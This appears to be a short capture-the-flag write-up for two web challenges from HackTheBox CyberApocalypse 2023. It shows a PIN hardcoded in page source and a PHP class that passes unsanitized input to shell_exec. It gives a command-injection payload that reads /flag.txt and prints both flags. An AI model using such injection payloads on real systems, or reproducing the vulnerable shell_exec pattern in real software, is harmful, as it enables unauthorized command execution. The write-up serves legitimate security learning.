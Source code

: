 ```yaml
---
title: HackTheBox - CyberApocalypse 2023
author: 0
date: 2023-03-23 16:00:00 +0800
categories: [htb, ctf]
tags: [ctf, sql-injection, graphql, server-side-template-injection, server-side-request-forgery, jwt, insecure-deserialization, pickle, linux-jailbreak, python-jailbreak, eval, redis]
render_with_liquid: false

---
```


## Web - Trapped
View page source
 ```html
 <script>
		window.CONFIG = window.CONFIG || {
			buildNumber: "v20190816",
			debug: false,
			modelName: "Valencia",
			correctPin: "8291",
		}
	</script>
 ```
 HTB{V13w_50urc3_c4n_b3_u53ful!!!}
 
 ## Web - Gunpoint
 
 ReconModel.php
```php
<?php
#[AllowDynamicProperties]

class ReconModel
{   
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}                                                                                                                                      
```

Exploit Command:
```bash
/ping 1; CAT /flag.txt
 ```
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
